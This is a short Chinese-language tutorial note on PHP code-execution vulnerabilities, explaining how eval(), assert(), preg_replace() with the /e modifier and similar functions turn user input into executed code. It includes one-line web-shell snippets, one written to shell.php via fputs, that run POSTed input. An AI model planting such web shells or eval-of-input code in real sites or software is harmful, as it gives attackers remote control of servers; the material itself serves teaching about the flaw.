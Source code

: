 # 代码执行

## 原理

> 💡Web应用程序在调用一些能够将字符串转换为代码的函数时，没有对这个字符串做严格的过滤和判断

-   文件包含漏洞可能会造成代码执行漏洞

## 代码执行与命令执行区别

-   命令执行是直接执行操作系统的命令，常用链接符接恶意命令（ system('set') ）
-   代码执行是通过代码来间接执行系统命令 （ eval(system('set')) ），因此代码执行不仅仅可以执行系统命令，还可以执行PHP函数

## 常见函数

-   eval()     //将参数作为PHP程序代码执行
-   assert()
-   preg\_replace()
-   create\_function()
-   call\_user\_func()，
-   call\_user\_func\_array()

eval()运用：

```php
 //一句话木马
 fputs(fopen('shell.php','w'),'<?php @eval($_POST['cmd']) ?>');

```

assert()运用：

```php
 <?php @assert($_POST[1])?>
```

preg\_replace()运用：

```php
<?php echo preg_replace("/hello/e",$_GET["h"],"hello"); ?>
```
